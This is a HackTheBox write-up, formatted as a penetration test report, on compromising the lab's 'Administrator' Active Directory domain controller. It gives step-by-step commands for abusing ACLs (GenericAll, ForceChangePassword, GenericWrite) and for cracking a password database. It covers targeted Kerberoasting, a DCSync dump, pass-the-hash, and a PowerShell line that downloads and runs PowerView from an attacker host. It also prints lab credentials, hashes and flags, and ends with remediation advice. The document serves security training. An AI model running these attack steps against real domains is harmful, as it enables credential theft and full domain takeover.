# Administrator — HackTheBox Report

| Difficulty | OS      | Category         |
| ---------- | ------- | ---------------- |
| Medium     | Windows | Active Directory |

> Writeup of a retired Administrator machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Administrator / IP: 10.129.67.141` **Platform:** `HackTheBox` **Date Completed:** `2026-09-23` **Assessment Type:** `Active Directory` **Approach:** `Grey box` — assessed with `initial low-privilege credentials provided` (`olivia:ichliebedich`).

Administrator is an Active Directory-focused machine that demonstrates how a chain of misconfigured, excessive object-level ACLs (`GenericAll`, `ForceChangePassword`, `GenericWrite`) can be pivoted through multiple user accounts to achieve full domain compromise. Starting from a single low-privileged credential, BloodHound was used to map object control relationships, revealing that the initial user had `GenericAll` rights over a second account. That account, in turn, had `ForceChangePassword` rights over a third account, whose group membership provided FTP access to a password manager database. Cracking that database surfaced additional plaintext credentials, one of which had valid, working domain credentials and provided WinRM access along with the user flag. From there, a `GenericWrite` right over yet another account enabled a targeted Kerberoasting attack, and the resulting cracked password belonged to a user with DCSync rights, allowing extraction of every domain credential — including the Administrator's NTLM hash — and full domain compromise, including the root flag.

---

## Scope

| Host / URL / IP Address | Description                                                      |
| ------------------------ | -------------------------------------------------------------------- |
| `10.129.67.141`           | Target machine — Windows Server 2022, Domain Controller (`administrator.htb`) |

> Testing was restricted to the host(s) listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — port/service scanning to fingerprint the Active Directory environment.
2. **Scanning & Enumeration** — collecting Active Directory relationships and permissions using BloodHound.
3. **Vulnerability Analysis** — identifying abusable ACL chains (`GenericAll`, `ForceChangePassword`, `GenericWrite`) and group memberships.
4. **Exploitation** — abusing each ACL in turn to pivot between user accounts and services (FTP, WinRM).
5. **Privilege Escalation** — performing a targeted Kerberoast attack and abusing DCSync rights to obtain domain-wide credentials.
6. **Post-Exploitation** — authenticating as Administrator and capturing user/root flags.

---

## Tools Used

| Tool                  | Purpose                                                             |
| ---------------------- | ---------------------------------------------------------------------- |
| `nmap`                 | Port and service scanning                                              |
| `bloodhound-python` / `BloodHound` | Active Directory relationship and ACL enumeration            |
| `neo4j`                | Graph database backing BloodHound                                      |
| `net rpc` (Samba)      | Abusing `GenericAll` to force-change a user's password                |
| `PowerView.ps1`        | Abusing `ForceChangePassword` from a WinRM session                    |
| `ftp`                  | Retrieving a password manager backup file                              |
| `hashcat`              | Cracking the Password Safe database and a Kerberoast hash              |
| `Password Safe`        | Opening the cracked password database to recover plaintext credentials |
| `netexec` (`nxc`)      | Validating which recovered credentials were active on the domain       |
| `evil-winrm`           | Remote shell access via WinRM                                          |
| `targetedKerberoast.py`| Performing a targeted Kerberoasting attack via `GenericWrite`           |
| `secretsdump.py` (Impacket) | Performing a DCSync attack to dump all domain credentials         |

---

## Assessment Summary (Findings Overview)

The overall attack path chained four separate Active Directory ACL/credential-management weaknesses together, starting from a single low-privileged account and ending in full domain compromise via DCSync.

| Severity      | Count |
| ------------- | ----- |
| Critical      | 2     |
| High          | 2     |
| Medium        | 1     |
| Low           | 0     |
| Informational | 0     |

| # | Severity | Finding Name                                                                 |
| --- | -------- | ------------------------------------------------------------------------------- |
| 1 | Critical | DCSync Rights Granted to Non-Privileged Domain User                             |
| 2 | Critical | Excessive `GenericAll` Rights Enabling Full Account Takeover                     |
| 3 | High     | `ForceChangePassword` Rights Enabling Unauthorized Password Resets               |
| 4 | High     | `GenericWrite` Rights Enabling Targeted Kerberoasting                            |
| 5 | Medium   | Plaintext Credential Database Accessible via FTP with Weak Master Password       |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

### 1.1. Reconnaissance — Port Scanning

```bash
sudo nmap 10.129.67.141 -sC -sV -Pn
```

```text
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0.)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

**Findings:** The scan confirmed a Windows Active Directory Domain Controller for the domain `administrator.htb`, with FTP, Kerberos, LDAP, SMB, and WinRM (5985) all exposed. Initial credentials (`olivia:ichliebedich`) were provided for this assessment.

```bash
echo "10.129.67.141 administrator.htb" | sudo tee -a /etc/hosts
```

### 1.2. Enumeration — Mapping AD Relationships with BloodHound

```bash
bloodhound-python -d administrator.htb -c All -u olivia -p 'ichliebedich' -ns 10.129.67.141 -k
```



```bash
sudo neo4j console
bloodhound
```

With `olivia` set as the starting node, the **Node Info → Outbound Object Control → First Degree Object Control** tab revealed a `GenericAll` edge:



**Findings:** The `olivia` account was found to hold `GenericAll` — full object control — over the `michael` account, providing a direct path to take over `michael`'s credentials.

### 1.3. Exploitation — Abusing GenericAll to Reset Michael's Password (Finding #2)

Right-clicking the `GenericAll` edge and selecting "Help" surfaced the exact abuse command:



```bash
net rpc password "michael" "password" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.129.67.141"
```



**Findings:** `olivia`'s `GenericAll` right was abused via Samba's `net rpc password` to set an arbitrary new password for `michael`, without needing to know his original credentials, and access was confirmed via `evil-winrm`.

### 1.4. Enumeration — Pivoting to Benjamin via ForceChangePassword (Finding #3)

Back in BloodHound, with `michael` as the starting node, **Outbound Object Control → Transitive Object Control** revealed a further edge:



**Findings:** `michael` held `ForceChangePassword` over the `benjamin` account — sufficient to reset `benjamin`'s password without knowing the original, but (unlike `GenericAll`) not full object control.

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
python3 -m http.server 4000
```

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.188:4000/PowerView.ps1')

$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ('ADMINISTRATOR\michael', $SecPassword)
$UserPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword -Credential $Cred
```

**Findings:** `PowerView`'s `Set-DomainUserPassword` was used from an authenticated `michael` WinRM session to force-change `benjamin`'s password to a known value.

### 1.5. Enumeration — Benjamin's Group Membership and FTP Access

BloodHound showed `benjamin` was a member of the `ShareModerators` group:



```bash
ftp benjamin@10.129.67.141
dir
get Backup.psafe3
exit
```



**Findings:** `benjamin`'s group membership granted access to an FTP share containing `Backup.psafe3`, a Password Safe password manager database file.

### 1.6. Exploitation — Cracking the Password Safe Database (Finding #5)

```bash
hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt.gz
```



**Master password:** `tekieromucho`



**Findings:** The Password Safe database's master password was weak enough to be recovered from `rockyou.txt` in seconds, exposing three additional sets of domain credentials (`alexander`, `emily`, `emma`).

### 1.7. Vulnerability Analysis — Validating Recovered Credentials

```bash
netexec smb 10.129.67.141 -u alexander -p UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
netexec smb 10.129.67.141 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
netexec smb 10.129.67.141 -u emma -p WwANQWnmJnGV07WQN8bMS7FMAbjNur
```



**Findings:** Of the three recovered credential sets, only `emily`'s password was valid against the live domain — `alexander` and `emma`'s stored passwords had since been rotated or were incorrect.

### 1.8. Foothold — WinRM Access as Emily

```bash
evil-winrm -i 10.129.67.141 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```



**User flag:** `e5c1f51574e3e5124fb4f15d48a9d82f`

### 1.9. Privilege Escalation — GenericWrite Enabling Targeted Kerberoasting (Finding #4)

BloodHound (from `emily`) showed a further edge to a fourth user:



The "Help" panel for `GenericWrite` pointed directly to a targeted Kerberoast attack:



```bash
wget https://raw.githubusercontent.com/ShutdownRepo/targetedKerberoast/refs/heads/main/targetedKerberoast.py
echo "ethan" > ethan.txt
sudo ntpdate -u administrator.htb
python3 targetedKerberoast.py -v --dc-ip '10.129.67.141' -d administrator.htb -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -U ethan.txt
```



**Findings:** `emily`'s `GenericWrite` right over `ethan` allowed a Service Principal Name (SPN) to be added to `ethan`'s account on the fly, making the account Kerberoastable and yielding a crackable `krb5tgs` ticket — without needing any prior SPN to exist.

```bash
hashcat -a 0 -m 13100 ethan /usr/share/wordlists/rockyou.txt.gz
```



**Cracked credential:** `ethan:limpbizkit`

### 1.10. Privilege Escalation — DCSync Attack as Ethan (Finding #1)

BloodHound confirmed that `ethan` held direct `DCSync`-capable rights (`GetChanges`, `GetChangesAll`, `GetChangesInFilteredSet`, `DCSync`) over the domain object itself:



```bash
secretsdump.py -just-dc ADMINISTRATOR.HTB/ethan@10.129.67.141
```

*(See `./images/Pasted_image_20260922195613.png` for the full secretsdump output, including the Administrator NTLM hash.)*

**Findings:** With DCSync rights, `ethan` was able to impersonate a Domain Controller and request password data via the Directory Replication Service (DRS) protocol for every domain account, including `Administrator`.

### 1.11. Post-Exploitation — Administrator Access and Root Flag

```bash
evil-winrm -i 10.129.67.141 -u Administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
cd ..
cd Desktop
dir
cat root.txt
```

*(See `./images/Pasted_image_20260922195744.png` for the Administrator shell and root flag capture.)*

**Root flag:** `f9174e663761cec3b3ec56d8834b45a5`

---

## Technical Findings Details

### 1. DCSync Rights Granted to Non-Privileged Domain User — Critical

| Field                              | Details                                                                                                                                        |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-269: Improper Privilege Management                                                                                                          |
| **CVSS 3.1 Score**                 | 9.9 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`                                                                                            |
| **Description (Incl. Root Cause)** | The `ethan` account, a standard domain user, was directly granted the Active Directory replication rights `DS-Replication-Get-Changes`, `DS-Replication-Get-Changes-All`, and `DS-Replication-Get-Changes-In-Filtered-Set` on the domain object itself — the permission set collectively known as "DCSync" rights — despite having no legitimate need to replicate directory data. |
| **Security Impact**                | Any attacker who compromises `ethan`'s credentials (as occurred here via Kerberoasting) can impersonate a Domain Controller and extract the password hashes of every account in the domain, including `krbtgt` and `Administrator`, resulting in complete and often persistent domain compromise (e.g. via Golden Ticket attacks). |
| **Affected Host(s)**               | 10.129.67.141 (Domain Controller, `administrator.htb`)                                                                                          |
| **Remediation**                    | - Remove replication rights from all accounts except Domain Controllers and explicitly authorized service accounts.<br>- Audit AD ACLs regularly using BloodHound or similar tooling to detect unintended DCSync-capable principals.<br>- Rotate the `krbtgt` account password (twice) and force a password reset domain-wide if DCSync abuse is suspected. |
| **References**                     | [MITRE ATT&CK: T1003.006 — OS Credential Dumping: DCSync](https://attack.mitre.org/techniques/T1003/006/) |

**Evidence:**

```
secretsdump.py -just-dc ADMINISTRATOR.HTB/ethan@10.129.67.141
→ Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
```

`./images/dcsync_ethan.png`, `./images/Pasted_image_20260922195613.png`

---

### 2. Excessive `GenericAll` Rights Enabling Full Account Takeover — Critical

| Field                              | Details                                                                                                                                        |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-269: Improper Privilege Management                                                                                                          |
| **CVSS 3.1 Score**                 | 8.8 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                                                                                            |
| **Description (Incl. Root Cause)** | The initially provided low-privileged account, `olivia`, was granted `GenericAll` — full object control — over the `michael` user account in Active Directory, with no legitimate business justification identified for this delegation. |
| **Security Impact**                | `GenericAll` allows the holder to fully control the target object, including resetting its password without knowing the original. This let a low-privileged, externally-provided credential pivot directly into a second, independent user account, kicking off the entire attack chain that ended in domain compromise. |
| **Affected Host(s)**               | 10.129.67.141 (Domain Controller, `administrator.htb`)                                                                                          |
| **Remediation**                    | - Apply least-privilege ACL delegation: `GenericAll` should be reserved for legitimate account/object owners or dedicated administrative tiers, not standard users.<br>- Periodically audit AD ACLs with BloodHound (or equivalent) to detect and remove unintended object-control edges.<br>- Implement a tiered administration model (e.g. Microsoft's ESAE/Red Forest or modern Privileged Access Management tiering) to prevent lower-tier accounts from controlling higher-value objects. |
| **References**                     | [BloodHound Docs: GenericAll Abuse](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html), MITRE ATT&CK: T1098 — Account Manipulation |

**Evidence:**

```
net rpc password "michael" "password" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.129.67.141"
→ evil-winrm -i 10.129.67.141 -u michael -p 'password'
→ whoami: administrator\michael
```

`./images/genericall_olivia_michael.png`, `./images/genericall_help.png`, `./images/changed_password_micahel.png`

---

### 3. `ForceChangePassword` Rights Enabling Unauthorized Password Resets — High

| Field                              | Details                                                                                                                                        |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-269: Improper Privilege Management                                                                                                          |
| **CVSS 3.1 Score**                 | 8.1 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N`                                                                                            |
| **Description (Incl. Root Cause)** | The `michael` account (itself compromised via Finding #2) was found to hold `ForceChangePassword` rights over the `benjamin` account, again with no clear legitimate purpose. |
| **Security Impact**                | `ForceChangePassword` allowed `michael` to reset `benjamin`'s password without authorization or knowledge of the original credential, continuing the lateral movement chain into an account with FTP access to a sensitive password database. |
| **Affected Host(s)**               | 10.129.67.141 (Domain Controller, `administrator.htb`)                                                                                          |
| **Remediation**                    | - Remove unnecessary `ForceChangePassword` delegations; restrict password reset rights to Help Desk/IT admin groups via dedicated, audited roles.<br>- Enable alerting on password reset events for privileged or sensitive accounts.<br>- Regularly review AD delegation using BloodHound. |
| **References**                     | [BloodHound Docs: ForceChangePassword Abuse](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html) |

**Evidence:**

```
Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword -Credential $Cred
→ benjamin's password successfully reset to a known value
```

`./images/forcechangepassword.png`

---

### 4. `GenericWrite` Rights Enabling Targeted Kerberoasting — High

| Field                              | Details                                                                                                                                        |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-269: Improper Privilege Management                                                                                                          |
| **CVSS 3.1 Score**                 | 7.5 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`                                                                                            |
| **Description (Incl. Root Cause)** | The `emily` account held `GenericWrite` over the `ethan` account, allowing arbitrary attribute writes — including adding a Service Principal Name (SPN) to an account that did not previously have one. |
| **Security Impact**                | By adding a temporary SPN to `ethan`'s account, an attacker could request a Kerberos service ticket for it and crack the resulting TGS hash offline, recovering `ethan`'s plaintext password even though `ethan` had no prior Kerberoastable service account. This is the "targeted Kerberoasting" technique, and it directly enabled the DCSync attack in Finding #1. |
| **Affected Host(s)**               | 10.129.67.141 (Domain Controller, `administrator.htb`)                                                                                          |
| **Remediation**                    | - Remove unnecessary `GenericWrite`/attribute-write delegations on user objects, particularly on privileged or high-value accounts like `ethan`.<br>- Enforce strong, complex passwords domain-wide to reduce the feasibility of offline Kerberoast cracking even where SPNs exist.<br>- Monitor for SPN additions/removals as a detection signal for targeted Kerberoasting. |
| **References**                     | [MITRE ATT&CK: T1558.003 — Kerberoasting](https://attack.mitre.org/techniques/T1558/003/), [targetedKerberoast (ShutdownRepo)](https://github.com/ShutdownRepo/targetedKerberoast) |

**Evidence:**

```
python3 targetedKerberoast.py -v --dc-ip '10.129.67.141' -d administrator.htb -u 'emily' -p '...' -U ethan.txt
→ $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$...
→ cracked: ethan:limpbizkit
```

`./images/genricwrite-emily.png`, `./images/targetedkerboroast_command.png`, `./images/krb5tg.png`, `./images/password_ethan.png`

---

### 5. Plaintext Credential Database Accessible via FTP with Weak Master Password — Medium

| Field                              | Details                                                                                                                                        |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-521: Weak Password Requirements / CWE-522: Insufficiently Protected Credentials                                                             |
| **CVSS 3.1 Score**                 | 6.5 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`                                                                                            |
| **Description (Incl. Root Cause)** | A Password Safe database backup (`Backup.psafe3`) containing plaintext credentials for multiple domain users was stored on an FTP share accessible to members of the `ShareModerators` group. The database's master password (`tekieromucho`) was weak enough to be cracked from the `rockyou.txt` wordlist in under a second. |
| **Security Impact**                | Once `benjamin`'s FTP access was obtained (via Finding #3), the weak master password allowed trivial recovery of three additional domain credentials, one of which (`emily`) was valid and provided a full interactive foothold on the domain (WinRM access and the user flag). |
| **Affected Host(s)**               | 10.129.67.141:21 (FTP)                                                                                                                            |
| **Remediation**                    | - Do not store credential backups (password manager databases) on network shares accessible to groups broader than strictly necessary.<br>- Enforce a strong master password policy for any password manager deployment (length, complexity, and un-crackability against common wordlists).<br>- Periodically rotate credentials stored in password managers, and audit for stale/backup copies left on shared storage. |
| **References**                     | [OWASP: Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html) |

**Evidence:**

```
hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt.gz
→ Backup.psafe3:tekieromucho

Password Safe → alexander / emily / emma credentials recovered
```

`./images/ftp_login.png`, `./images/password_file_password.png`, `./images/password_safe.png`, `./images/confirmed_passwords.png`

---

## Remediation Summary

### Short Term

- **Finding #1 (DCSync)** – Immediately remove replication rights from `ethan` and any other non-DC/non-authorized principal; rotate the `krbtgt` password twice and reset the `Administrator` password/hash.
- **Finding #2 / #3 / #4 (Excessive ACLs)** – Remove the `GenericAll` (olivia → michael), `ForceChangePassword` (michael → benjamin), and `GenericWrite` (emily → ethan) delegations immediately; audit all other accounts for similar unintended edges.
- **Finding #5 (Weak Credential Database)** – Remove `Backup.psafe3` from the FTP share and rotate every credential it contained.

### Medium Term

- Run a full BloodHound collection and review to identify and remediate every abusable ACL path to Domain Admin/DCSync-capable accounts.
- Restrict FTP share access and review `ShareModerators` group membership and purpose.
- Enforce a strong password policy across all domain accounts to reduce Kerberoasting feasibility.

### Long Term

- Implement a tiered administrative model to prevent standard user accounts from ever holding control over higher-privilege objects.
- Establish recurring (e.g. quarterly) Active Directory ACL audits as part of routine security operations.
- Deploy detection rules for common AD attack techniques (Kerberoasting, DCSync, unexpected password resets) via a SIEM or EDR solution.

---

## Lessons Learned / Skills Demonstrated

**Active Directory ACL Enumeration:** Used BloodHound to systematically map object-level control relationships from a single low-privileged credential, identifying a full attack path to Domain Admin.

**GenericAll / ForceChangePassword Abuse:** Leveraged Samba's `net rpc password` and PowerView's `Set-DomainUserPassword` to pivot between multiple user accounts by abusing excessive delegated permissions.

**Credential Database Cracking:** Used `hashcat` to crack a Password Safe v3 database master password, then extracted and validated the plaintext credentials it contained.

**Targeted Kerberoasting:** Recognized and exploited a `GenericWrite` right to add an SPN to an otherwise non-Kerberoastable account, retrieved and cracked its TGS ticket.

**DCSync Attack Execution:** Used Impacket's `secretsdump.py` to perform a full domain credential dump via the Directory Replication Service protocol, culminating in Administrator-level access.

---

## Appendix

### A. Finding Severity Definitions

| Rating       | Definition                                                                                     |
| ------------ | ----------------------------------------------------------------------------------------------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High**     | Exploitation causes substantial harm to confidentiality, integrity, or availability.           |
| **Medium**   | Exploitation has a moderate impact, or a high-impact issue with limited exposure.              |
| **Low**      | Exploitation causes minimal impact to operations.                                              |
| **Info**     | An observation or improvement opportunity; not itself a vulnerability.                         |

### B. Exploited Hosts

| Host             | Method                                                              | Notes                                    |
| ----------------- | ---------------------------------------------------------------------- | ------------------------------------------- |
| `10.129.67.141`    | `GenericAll` abuse (olivia → michael)                                  | WinRM access as `michael`                   |
| `10.129.67.141`    | `ForceChangePassword` abuse (michael → benjamin)                       | FTP access as `benjamin`                    |
| `10.129.67.141`    | Cracked Password Safe DB + credential validation                       | WinRM access as `emily`, user flag captured |
| `10.129.67.141`    | Targeted Kerberoast (emily → ethan) + DCSync                           | Full credential dump                        |
| `10.129.67.141`    | Pass-the-hash as `Administrator`                                       | Root flag captured                          |

### C. Compromised Users / Credentials

| Username        | Method                                                    | Notes                                  |
| ----------------- | ------------------------------------------------------------ | ----------------------------------------- |
| `olivia`           | Provided initial credential                                   | `ichliebedich` — starting foothold        |
| `michael`          | `GenericAll` abuse via `net rpc password`                     | Password reset to a known value           |
| `benjamin`         | `ForceChangePassword` abuse via PowerView                      | Password reset to a known value; FTP access |
| `alexander`, `emma`| Recovered from cracked Password Safe DB                        | Credentials found invalid on the domain   |
| `emily`            | Recovered from cracked Password Safe DB, validated via netexec | WinRM access, user flag                   |
| `ethan`            | Targeted Kerberoast + hashcat crack                             | `limpbizkit`; DCSync rights               |
| `Administrator`    | DCSync attack via `secretsdump.py`                              | NTLM hash `3dc553ce4b9fd20bd016e098d2d2fd2e`; root flag |

### D. Command Reference Log

```bash
sudo nmap 10.129.67.141 -sC -sV -Pn
echo "10.129.67.141 administrator.htb" | sudo tee -a /etc/hosts
bloodhound-python -d administrator.htb -c All -u olivia -p 'ichliebedich' -ns 10.129.67.141 -k
sudo neo4j console
bloodhound
net rpc password "michael" "password" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.129.67.141"
evil-winrm -i 10.129.67.141 -u michael -p 'password'
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
python3 -m http.server 4000
# from the WinRM session:
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.188:4000/PowerView.ps1')
$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ('ADMINISTRATOR\michael', $SecPassword)
$UserPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword -Credential $Cred
ftp benjamin@10.129.67.141
dir
get Backup.psafe3
exit
hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt.gz
netexec smb 10.129.67.141 -u alexander -p UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
netexec smb 10.129.67.141 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
netexec smb 10.129.67.141 -u emma -p WwANQWnmJnGV07WQN8bMS7FMAbjNur
evil-winrm -i 10.129.67.141 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
wget https://raw.githubusercontent.com/ShutdownRepo/targetedKerberoast/refs/heads/main/targetedKerberoast.py
echo "ethan" > ethan.txt
sudo ntpdate -u administrator.htb
python3 targetedKerberoast.py -v --dc-ip '10.129.67.141' -d administrator.htb -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -U ethan.txt
hashcat -a 0 -m 13100 ethan /usr/share/wordlists/rockyou.txt.gz
secretsdump.py -just-dc ADMINISTRATOR.HTB/ethan@10.129.67.141
evil-winrm -i 10.129.67.141 -u Administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
cd ..
cd Desktop
dir
cat root.txt
```

### E. References

- [MITRE ATT&CK: T1003.006 — OS Credential Dumping: DCSync](https://attack.mitre.org/techniques/T1003/006/)
- [MITRE ATT&CK: T1558.003 — Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)
- [MITRE ATT&CK: T1098 — Account Manipulation](https://attack.mitre.org/techniques/T1098/)
- [MITRE ATT&CK: T1550.002 — Pass the Hash](https://attack.mitre.org/techniques/T1550/002/)
- [Official HackTheBox Machine Page — Administrator](https://app.hackthebox.com/machines/Administrator)
- [BloodHound Documentation](https://bloodhound.readthedocs.io/)
- [targetedKerberoast (ShutdownRepo)](https://github.com/ShutdownRepo/targetedKerberoast)
- [PowerView.ps1 (PowerSploit)](https://github.com/PowerShellMafia/PowerSploit)

> **Note on CVEs:** All findings in this assessment are Active Directory misconfigurations (excessive ACL delegations, weak credential storage) rather than flaws in a specific versioned software component, so no CVE identifiers apply.
